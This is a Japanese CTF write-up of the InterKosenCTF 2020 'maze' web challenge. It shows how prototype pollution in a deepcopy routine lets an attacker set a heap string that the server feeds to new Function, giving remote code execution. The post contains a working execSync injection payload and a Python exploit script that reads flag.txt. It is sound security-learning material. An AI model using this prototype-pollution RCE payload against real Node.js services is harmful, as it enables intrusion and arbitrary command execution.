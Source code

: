 +++
title = "InterKosenCTF 2020 - maze"
date = 2022-06-01

[taxonomies]
tags = ["CTF", "Writeup", "Web", "Prototype Pollution"]
+++

## TL;DR

- `new Array()`に対するオブジェクトのコピー時にPrototype Pollutionが出来る
- `const heap = this.heap || "<default>"`のような場所があるので`object.heap`を汚染する
- なんと`heap`をjavascript片として関数を作るという処理があるのでそこで任意コード実行をする

## Prerequisite

- Prototype Pollution

## Writeup

ソースコードは複数に分かれているので割愛。JSON形式で迷路を飛ばすとそれを解いてくれるという問題。

迷路を解くアルゴリズムの中で以前の状態から複数の状態に遷移する際に参照渡しだと困ることから、次のような`deepcopy`関数が存在する。

```javascript
function is_array(obj) {
    return obj !== null && typeof obj === 'object';
}

function __deepcopy_internal(result, array) {
    for (let index in array) {
        if (is_array(result[index]) && is_array(array[index])) {
            __deepcopy_internal(result[index], array[index]);
        } else {
            result[index] = array[index];
        }
    }
    return result;
}

/**
 * deepcopy: Clone an Array object
 */
function deepcopy(obj) {
    return __deepcopy_internal(new Array(), obj);
}
```

`__deepcopy()`がPrototype Pollutionができそうな実装になっている。`deepcopy()`を見ると第一引数が`new Array()`となっているので、`obj`側の`__proto__`に値を設定したらなんかいい感じのことが出来る予感がする。

実際に(開発者ツールのような)適当なjavascriptの実行環境で`Array()`のprototypeを辿ってみると次のようになっている。

```
>> let a = new Array();
<< undefined
>> a.__proto__
<< Array []
>> a.__proto__.__proto__
<< Object { … }
```

2回上へと辿ることで`Object`を得ることが出来る。ということで`a["__proto__"]["__proto__"]["<attr>"]`に値`v`を入れて`a`を`deepcopy`にぶち込むと、`Object.attr`に`v`が代入される。この`deepcopy`は迷路のクラスを定義している`maze.js`で用いられている。

```javascript

/**
 * Maze: State of maze used by MazeSolver
 *
 * args:
 *   F   : Maze (1:wall / 0:nothing)
 *   S   : Current position represented by [x, y]
 *   G   : Goal position represented by [x, y]
 *   move: Steps made so far
 */
class Maze {
    constructor(F, S, G, move='') {
        this.F = F;
        this.width = F[0].length;
        this.height = F.length;
        this.S = S;
        this.G = G;
        this.move = move;
    }
    /* f: Cost for A* search */
    get f() { return this.g + this.h; }
    /* g: Steps required so far */
    get g() { return this.move.length; }
    /* h: Heuristic function */
    get h() { return Math.abs(this.S[0] - this.G[0])
              + Math.abs(this.S[1] - this.G[1]); }
    /* hash: Unique value of this state */
    get hash() { return (this.S[0] << 8) | this.S[1]; }
    /* next: Generate possible next states */
    next() {
        var candidates = [];
        if (this.S[0] > 0 && this.F[this.S[1]][this.S[0]-1] == 0) {
            // Move left
            var P = deepcopy(this.S);
            P[0] -= 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'A'));
        }
        if (this.S[0] < this.width - 1 && this.F[this.S[1]][this.S[0]+1] == 0) {
            // Move right
            var P = deepcopy(this.S);
            P[0] += 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'D'));
        }
        if (this.S[1] > 0 && this.F[this.S[1]-1][this.S[0]] == 0) {
            // Move up
            var P = deepcopy(this.S);
            P[1] -= 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'W'));
        }
        if (this.S[1] < this.height - 1 && this.F[this.S[1]+1][this.S[0]] == 0) {
            // Move bottom
            var P = deepcopy(this.S);
            P[1] += 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'S'));
        }
        return candidates;
    }
}
```

迷路を移動する際に始点が変わることから、その時に`deepcopy`が用いられている。0と1のインデックスには数値が入っていないといけないが、それ以外のインデックス(キー)なら問題が無さそうなので、迷路の始点を指定する際に前述のようなPrototype Pollutionを引き起こすようなJSONを仕込む。

問題は、Prototype Pollutionが出来たところでどうやってフラグを得るかである。フラグを変数やcookieに入れたりしている様子は見られないのでロジックのバグを引き起こしてフラグを開示させるような攻撃では無い気がする。

そこでRCEを狙うが、実はこの問題の構成は`app.js`が`solve.js`を`execFile`によって子プロセスとして実行しているため、`solve.js`側でPrototype Pollutionを起こしても`app.js`側に影響は無く、加えてここ以外に`execFile`を使っている様子は見られないので`execFile`を使う方針は外す。

Prototype Pollution自体は簡単に見つかったが次が見つからず苦しんでいたが、`maze.js`を眺めていると、次のような記述が見られる。

```javascript
		const heap = this.heap || 'BinaryHeap';
		var q = new Function('c', 'return new this.'+heap+'({comparator:c});')
            .bind(pq)(comparator);
```

`Function`はコンストラクターの先頭に引数の文字列を取り、末尾に関数の中身を記述するjavascriptの文字列をとって、その関数を構成する。ということはここで作られた関数はどこかで使われるはずで、もし`heap`の値を任意に設定出来れば好きな処理を実行出来る可能性がある。

正常系であれば、`heap`という変数に入った値を用いてデフォルトは`"BinaryHeap"`という文字列が入り、ここはリクエスト時に指定した値を入れることが出来るが次のような制限がある。

```javascript
    // Validation
    if (req.body.heap
        && !['BinaryHeap', 'PairingHeap', 'SkewHeap'].includes(req.body.heap)) {
        req.body.heap = 'BinaryHeap'; // default
    }
```

逆に言えば、ここで値を設定しなければ、Prototype Pollutionで`Object.heap`を設定した時にそれが用いられる。よって、Prototype Pollutionでは`heap`メンバを汚染する。

これと上記の`Function`を利用していい感じの関数を構成する事を考える。`return new this.`と末尾の`{comparator:c});`が邪魔だが、いい感じに無視できるような構成にすると次のような関数を構成することになった。

```javascript
return this.BinaryHeap({comparator:c}), function() {console.log(process.mainModule.require('child_process').execSync('<RCE>').toString())}();//({comparator:c});
```

実はその後の`.bind(pq)(comparator)`の意味はよくわかっておらず、そもそもこうやって作られた`q`がどこで発火するのかもわからない。が、このような関数となるようなPrototype Pollutionを引き起こすと何故か知らないが`<RCE>`で指定したコマンドの実行結果が表示される。

## Code

```python
import requests
import json

HOST = "localhost"
PORT = 14002

cmd = "cat flag.txt"

maze = {
    "map": [
        [1, 1, 1, 1],
        [1, 0, 0, 1],
        [1, 0, 0, 1],
        [1, 1, 1, 1]
    ],
    "start": {
        "0": 1,
        "1": 1,
        "__proto__": {
            "__proto__": {
                "heap": "BinaryHeap({comparator:c}), function() {console.log(process.mainModule.require('child_process').execSync('" + cmd + "').toString())}();//"
            }
        }
    },
    "goal": (2, 2),
    "heap": None
}

r = requests.post(f"http://{HOST}:{PORT}/solve",
                  headers = {"Content-Type": "application/json"},
                  data = json.dumps(maze))
print(r.text)
```

## Flag

ローカルでやっただけ

## Resources

- [CTFのWebセキュリティにおけるJavaScript,nodejsまとめ（Prototype pollution, 難読化） - はまやんはまやんはまやん](https://blog.hamayanhamayan.com/entry/2021/12/18/132420): node.jsのワンライナーを拝借した
- [InterKosenCTF2020-challenges/web/maze/distfiles at master · theoremoon/InterKosenCTF2020-challenges](https://github.com/theoremoon/InterKosenCTF2020-challenges/tree/master/web/maze/distfiles)
